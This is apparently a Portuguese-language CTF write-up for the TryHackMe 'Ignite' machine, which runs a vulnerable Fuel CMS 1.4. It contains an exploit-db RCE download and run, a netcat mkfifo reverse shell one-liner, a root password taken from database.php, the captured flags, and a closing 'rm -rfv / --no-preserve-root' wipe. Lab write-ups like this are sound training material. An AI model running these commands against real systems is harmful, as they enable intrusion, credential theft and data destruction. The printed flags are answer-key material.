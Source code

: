 CTF IGNITE

Ao inicar o desafio dei um nmap 

    nmap -A -sV IP 

Encontrei apenas a porta 80 

No servidor apache no html tinha informando o diretorio a versao do fuel cms, o username e senha do admin 

    version 1.4
    /fuel
    username: admin
    password: admin

Dei um gobuster mas nao encontrei nada apenas uma index.php, assim ja pensando que teria que executar um script em php 

Ao logar no painel admin tinha algumas opcoes para upar arquivos php ou qualquer outro, tinha como criar usuarios, enviar imagens etc..

Entretando nao consegui executar nenhum script que criase uma shell reversa para mim, entao pensei estar no caminho errado

Ao procurar por algum erro da versao do fuel cms no "exploit-db", encontrei uma falha RCE dessa versao

Entao eu baixei o arquivo para o meu kali 

    wget https://www.exploit-db.com/raw/50477
    python3 50477 -u http://IP

Executando o script tinha que informar apenas um parametro que era o ip que seria atacado... 

Abria uma shell que nao tinha acesso a nada... 
Assim teria que tentar executar outra reverse shell nessa shell que abri 

Bom, a partir dai eu nao sabia qual shell executar entao eu tentei em python.. em bash e fui seguindo ate alguma dar certo ate que consegui usando a nc mkfifo

Script

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP(tryhackme) 1333 >/tmp/f

NetCat

    nc -lvnp 1333

Assim conseguindo acesso ao usuario www-data e tendo acesso a primeira flag do desafio "user.txt" 

    cd home
    www-data
    cat flag.txt
    6470e394cbf6dab6a91682cc8585059b

Apos conseguir acesso a primeira flag do desafio tinha que ir atras do root 
Procurando no sistema encontrei a database da aplicacao dentro do diretorio

    /var/www/html/application/config/database.php

Dentro da database.php tinha o nome e senha do root

    username: root
    password: mememe

Ao tentar acessar o root pelo su ele pedia que fosse em um terminal entao executei um script em python que me permite executar o su

    touch script.py
    echo 'import pty;pty.spawn("/bin/sh")' >> script.py
    python script.py

Assim...

    su root
    pass "mememe"

Dentro da pasta root

    cd root
    cat root.txt
    b9bbcb33e11b80be759c4e844862482d

Finalizando..

    touch dannydev19.txt
    rm -rfv / --no-preserve-root

FLAGS

    FLAG 1: 6470e394cbf6dab6a91682cc8585059b
    FLAG 2: b9bbcb33e11b80be759c4e844862482d
   
![image](https://user-images.githubusercontent.com/86691253/184378722-a10a3cf0-5ff0-49fa-85e8-ca9e5d934661.png)
